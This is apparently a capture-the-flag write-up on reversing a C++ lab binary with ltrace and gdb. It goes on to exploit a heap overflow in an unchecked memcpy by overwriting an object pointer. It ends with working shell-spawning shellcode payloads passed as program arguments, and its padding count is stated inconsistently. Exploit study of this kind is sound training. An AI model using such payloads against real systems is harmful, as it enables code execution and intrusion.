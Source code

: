 we run our program without any args, it exits without doing anything, we try running it with 1 or multiple arguments and program exits again without any output. we run it now with ltrace:
Without arguments, it calls exit(1) immediately.
With 1 or more args it, it calls _Znwj(), memcpy and _ZNSt8ios_base4InitD1Ev then the program exits.
(In ltrace and gdb we will see some functions names in gibberish and that's functions name mangling and that's encoding additional informations into functions done by compiler in modern programming languages to ensure that names are unique, we will use c++filt to demangle them).
In gdb, and after the prologue we see immediately a test (<+10>:   cmp   DWORD PTR [ebp+0x8],0x1), (ebp+0x8 here is argc) and if it's not greater than one, program will stop here.
In line <+35> we call new(0x6) and that returns the address 0x804a008.
In line <+53> we call N::N(5), we now know that we're dealing with a class and that's it's parametrized constructor, this line sets its int member to 5.
Lines <+69> and <+87> do the same but with another instance N::N(6) , now we have allocated 2 chunks of memory on the heap (from 0x804a008 to 0x804a074 and from 0x804a078 to 0x804a0e4) this is what the heap will look like:

0x804a008:	0x08048848	0x00000000	0x00000000	0x00000000
0x804a018:	0x00000000	0x00000000	0x00000000	0x00000000
0x804a028:	0x00000000	0x00000000	0x00000000	0x00000000
0x804a038:	0x00000000	0x00000000	0x00000000	0x00000000
0x804a048:	0x00000000	0x00000000	0x00000000	0x00000000
0x804a058:	0x00000000	0x00000000	0x00000000	0x00000000
0x804a068:	0x00000000	0x00000000	0x00000005	0x00000071
0x804a078:	0x08048848	0x00000000	0x00000000	0x00000000
0x804a088:	0x00000000	0x00000000	0x00000000	0x00000000
0x804a098:	0x00000000	0x00000000	0x00000000	0x00000000
0x804a0a8:	0x00000000	0x00000000	0x00000000	0x00000000
0x804a0b8:	0x00000000	0x00000000	0x00000000	0x00000000
0x804a0c8:	0x00000000	0x00000000	0x00000000	0x00000000
0x804a0d8:	0x00000000	0x00000000	0x00000006  0x00020f21

In line <+131> the method N::setAnnotation(char*) that copies argv[1] into the first instance string using memcpy.
The next dereference the address 0x0804a078 2 times and then call it with (0x0804a078, 0x0804a008) as arguments.
We can exploit this, since memcpy here is unprotected and write strlen(argv[1]) into memory and that means we can write whatever we want into the address 0x0804a078 if our argv[1] has more than 108 characters (0x68).
since our argv[1] starts on memory 0x804a00c(0x804a008 + 0x4) we can write some shellcode on the beginning of our input then write more than 108 characters to point the address 0x0804a078 to our shellcode and execute it. we can do that using the following inline python :
cat | ./level9 $(python -c 'print "\x31\xc9\xf7\xe1\xb0\x0b\x51\x68\x2f\x2f\x73\x68\x68\x2f\x62\x69\x6e\x89\xe3\xcd\x80" + "A"*87 + "\x0c\xa0\x04\x08"'), that's 108 (21bytes of shellcode + padding of 78 A) then we write 0x804a00c in 0x0804a078. This won't work as we said earlier that the address 0x0804a078 is dereferenced twice before executing it that's why we'll add (0x804a010) to the beginning of our argv[1] to redirect it once again to the next 4 bytes, let's not forget to subtract the 4 bytes that we added from padding):
cat | ./level9 $(python -c 'print "\x10\xa0\x04\x08" + "\x31\xc9\xf7\xe1\xb0\x0b\x51\x68\x2f\x2f\x73\x68\x68\x2f\x62\x69\x6e\x89\xe3\xcd\x80" + "A"*83 + "\x0c\xa0\x04\x08"')
